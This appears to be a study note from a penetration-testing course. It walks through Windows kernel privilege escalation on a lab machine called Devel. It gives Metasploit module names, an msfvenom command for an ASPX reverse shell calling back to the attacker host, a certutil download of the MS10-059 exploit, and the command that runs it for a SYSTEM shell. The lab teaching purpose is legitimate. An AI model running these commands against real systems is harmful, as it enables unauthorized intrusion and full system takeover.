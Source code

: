 # Exploitation Path: Kernel Exploits

### Kernel Exploits Overview

**What is a Kernel?**  

The kernel is:  
- A computer program that controls everything in the system  
- Facilitates interactions between hardware and software components  
- A translator  

![Kernel](./pictures/what-is-a-kernel.png)

**Windows Kernel**  

![Windows Kernel](./pictures/windows-kernel.png)

**Resources:**

Windows Kernel Exploits - https://github.com/SecWiki/windows-kernel-exploits

### Escalation with Metasploit

After running `post/multi/recon/local_exploit_suggester`, check the exploits suggested one by one

Try the older MS exploits first

Devel is vulnerable to:

- exploit/windows/local/ms10_015_kitrap0d
- Test others too!

**Resources:**

Kitrap0d Information - https://seclists.org/fulldisclosure/2010/Jan/341

### Manual Kernel Exploitation

Generate a generic Windows reverse shell with msfvenom:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.2 LPORT=4444 -f aspx -o nc_shell.aspx`

Upload it to the FTP server, navigate to http://10.10.10.5/nc_shell.aspx with a netcat listener running to 
get RCE

Use certutil to download the MS10-059 Chimichurri.exe exploit from the attacking machine

`C:\Windows\Temp> certutil -urlcache -f http://10.0.0.2/Chimichurri.exe ms.exe`

Start a netcat listener and execute the exe to get a system shell

`C:\Windows\Temp> ms.exe 10.0.0.2 5555`

**Resources:**

MS10-059 Exploit - https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059
